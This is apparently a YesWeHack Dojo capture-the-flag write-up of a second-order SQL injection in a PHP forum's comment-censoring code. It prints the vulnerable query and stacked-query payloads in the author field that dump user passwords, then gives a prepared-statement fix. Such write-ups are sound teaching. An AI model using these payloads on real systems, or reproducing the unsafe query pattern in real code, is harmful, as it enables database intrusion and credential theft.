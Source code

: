 
# SQL Injection (CWE-89) trought $author parameter leading to information disclosure and database modification.

## DESCRIPTION

SQL injection is a type of security vulnerability that occurs when an attacker is able to insert or "inject" malicious SQL code into a query. This can happen when user input is not properly sanitized or validated before being used in an SQL query.

## EXPLOITATION

In this Dojo, we get access to a forum interface, where we can post a comment by inputing an author name and a message :

![](img/ywh-1.png)

Let's take a look at the source code !

### 1. Code analysis

```php
$input_author = urldecode($author$); 
$input_comment = urldecode($comment); 

$stmt = $db->prepare(
    "INSERT INTO comments (post_id, author, comment, image) VALUES (1, :author, :comment, '<url>')"
);
$stmt->bindValue(":author", $input_author, SQLITE3_TEXT);
$stmt->bindValue(":comment", $input_comment, SQLITE3_TEXT);
$stmt->execute();

$lst_posts = [];

$posts = $db->query("SELECT * FROM posts");
while ($p = $posts->fetchArray(SQLITE3_ASSOC)) {
    $post = new Post();
    $post->makePost($p['author'], $p['banner'], $p['title'], $p['post']);

    $comments = $db->query(
        sprintf("SELECT author, comment, image FROM comments WHERE post_id = '%d'", $p["id"])
    );
    // Ban haters (haters gonna hate)
    while ($comment = $comments->fetchArray(SQLITE3_ASSOC)) {
        if ( preg_match("/(bad|terrible|worst|skid)/", $comment['comment']) ) {
            $db->exec(
                sprintf("UPDATE users SET banned = 1 WHERE username = '%s'", $comment['author'])
            );
            $post->addComment($comment["image"], $comment["author"], "*****", true);
        } else {
            $post->addComment($comment["image"], $comment["author"], $comment["comment"]);
        }
    }
    array_push($lst_posts, $post->get());
}

$db->close();
```

First, the code decode our parameters : `$input_author` and `$input_comment`
Then, using a prepared SQL statement (`$db->prepare`), it store the data inside the database.
Using prepared statement with SQL is the safest way to avoid SQL injection, so won't be able to inject anything on this part, let's continue.

Then, the code query the database to search for posts, and for each post, display the comments :
```php
$lst_posts = [];

$posts = $db->query("SELECT * FROM posts");
while ($p = $posts->fetchArray(SQLITE3_ASSOC)) {
    $post = new Post();
    $post->makePost($p['author'], $p['banner'], $p['title'], $p['post']);

    $comments = $db->query(
        sprintf("SELECT author, comment, image FROM comments WHERE post_id = '%d'", $p["id"])
    );
    // Ban haters (haters gonna hate)
    while ($comment = $comments->fetchArray(SQLITE3_ASSOC)) {
        if ( preg_match("/(bad|terrible|worst|skid)/", $comment['comment']) ) {
            $db->exec(
                sprintf("UPDATE users SET banned = 1 WHERE username = '%s'", $comment['author'])
            );
            $post->addComment($comment["image"], $comment["author"], "*****", true);
        } else {
            $post->addComment($comment["image"], $comment["author"], $comment["comment"]);
        }
    }
    array_push($lst_posts, $post->get());
}
```

This is where it get interesting : the code has a censoring feature.
When looping on the comments, the code search for offensive keyword (`bad,terrible,worst,skid`), and if one is found, it update the entry in the database by using the username linked to the comment. And if the first query where using prepared statement, this one doesn't ! It directly append the username inside the query, without any sanitization.

So this is where we need to strike :
```php
if ( preg_match("/(bad|terrible|worst|skid)/", $comment['comment']) ) {
    $db->exec(
	    sprintf("UPDATE users SET banned = 1 WHERE username = '%s'",
	    $comment['author'])
    );
    $post->addComment($comment["image"], $comment["author"], "*****", true);
}
```

We can include SQL code inside our username to trigger a SQL injection. To do so, we need to meet those requirements :
- Include one of the offensive keyword in our comment to provoke the database update
- In our username, add SQL code to inject a new comment with a users passwords

### 2. Injecting SQL code in the username :

Before injecting anything, let's test the censoring feature. To do so, we'll create a comment with one of the blacklisted words like `terrible`:

![](img/ywh-2.png)

Now, let's try to inject SQL code to create a new comment :

```sql
INSERT INTO comments (post_id, author, comment, image) VALUES (1, 'Tihmz','SQL Injection','')
```

To inject it inside the username, we need to first add a username, then a single quote (`'`) and a semi-colon (`;`) to open a new statement. Then finish by commenting the rest of the statement (`--`) to avoid SQL errors :
```sql
Tihmz';INSERT INTO comments (post_id, author, comment, image) VALUES (1, 'Tihmz','SQL Injection','')--
```

So in the end the final query look like :
```sql
UPDATE users SET banned = 1 WHERE username = 'Tihmz';INSERT INTO comments (post_id, author, comment, image) VALUES (1, 'Tihmz','SQL Injection','')--
```

Lets' try it :

![](img/ywh-3.png)

And it worked, we were able to create a new comment by appending SQL code to the username.

We can now use this to extract data from the database, such as users password :
```sql
Tihmz';INSERT INTO comments (post_id, author, comment, image) VALUES (1, 'Tihmz',(select password from users),'')--
```
## POC

By injecting SQL code inside the username, and provoking the censoring of the comment, we can execute SQL code and modify the database.
If we create a new comment for the current post, it will be displayed and can be used to extract data from the database, such as the password for the user `Brumens` :

**$author :**
```sql
Tihmz';INSERT INTO comments (post_id, author, comment, image) VALUES (1, 'Password',(SELECT password FROM users WHERE username = 'brumens'),'aaa')--
```
**$comment :**
```
terrible
```

![](img/ywh-4.png)

> Flag : `FLAG{Vuln3r4b1li7y_Exp0s3d!!}`

## RISKS

The main risks for a SQL injection  are : 
- **Unauthorized Access**: Retrieve sensitive data from the database that the attacker should not have access to such as passwords and PII (Personally Identifiable Information).
- **Data Manipulation**: Modify, delete, or insert data into the database (like we did here).
- **Authentication Bypass**: Bypass authentication mechanisms to gain unauthorized access to the system (update a role from user to admin).
- **Database Corruption**: Corrupt the database by executing harmful SQL commands (like deleting data for services disruption)
## REMEDIATION

The easiest way to avoid SQL injection is to use prepared statement :
```php
$stmt = $db->prepare("UPDATE users SET banned = 1 WHERE username = :username");
$stmt->bindValue(":username", $comment['author'], SQLITE3_TEXT);
$stmt->execute();
```

That way, the username will not be interpreted as SQL code but only data.
This is the safer than any sanitization regarding SQL injection.

As always, thanks to Brumens for the fun challenge, and see you in the next one.

#### #YesWeRHackers
## REFERENCES

- [https://www.php.net/manual/en/mysqli.quickstart.prepared-statements.php](https://www.php.net/manual/en/mysqli.quickstart.prepared-statements.php)
